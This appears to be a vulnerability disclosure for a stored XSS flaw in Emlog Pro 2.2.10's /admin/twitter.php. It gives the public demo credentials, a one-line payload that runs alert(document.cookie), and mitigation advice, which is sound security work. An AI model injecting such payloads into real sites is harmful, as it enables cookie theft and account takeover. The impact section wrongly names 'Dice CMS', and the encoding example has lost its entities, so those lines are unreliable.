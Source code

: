 ## Vulnerability Title: Emlog Pro 2.2.10 /admin/twitter.php Stored XSS Vulnerability

- #### Vulnerability Type: Stored XSS Vulnerability
- #### Vendor Homepage: https://www.emlog.net/
- #### Software Link: https://github.com/emlog/emlog
- #### Affected Software/Version: pro 2.2.10

## Application Demo and credentials

- URL   
https://demo.emlog.cn/admin/account.php?action=signin   
username:emlog   
password:emlogpro   

## Technical Details & Exploit:

In Location "微语 >编辑"
<img width="967" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/15539c9c-07b8-4422-a173-67c73a0691ea">
paylpad:
```
"><img src=1 onerror=alert(document.cookie)>
```
<img width="1189" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/6fd3faaa-6d77-4566-b013-6beed69dc476">
Click "保存"
<img width="1102" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/c9912192-4d99-448d-97db-e51e342eb19d">


## Impact:

XSS attacks can be used to steal sensitive information from users, such as session tokens, cookies, or personal data. Attackers can inject malicious scripts that send this information to their own servers, effectively compromising user accounts and privacy.In the Dice CMS system, it's possible to steal the administrator's cookie, thereby taking over the account.

## Mitigation/Solution:

- Encode Data on Output

Description: Ensure that any data rendered on web pages is encoded, so that browser interprets it only as data, not executable code.  This is crucial for data displayed in HTML, JavaScript, or inserted into URLs.
Implementation: Use context-appropriate encoding functions to escape special characters.  For example, in HTML contexts, < should be encoded as <, > as >, and so on.

2.  Validate and Sanitize Input

Description: All user-supplied data should be validated against a strict specification and sanitized to remove or escape harmful characters.  This includes data from query parameters, form submissions, cookies, and any external sources.
Implementation: Use libraries or functions that specifically sanitize input for XSS, removing or encoding potentially malicious characters.  Regular expressions can also be used for custom validation rules.

3.  Use Content Security Policy (CSP)

Description: CSP is a browser security feature that helps detect and mitigate certain types of attacks, including XSS and data injection attacks.  It allows you to specify the domains a browser should consider as valid sources of executable scripts.
Implementation: Implement CSP by adding the Content-Security-Policy HTTP header to instruct browsers to only execute scripts from trusted sources.  Start with a strict policy and gradually relax it as necessary.
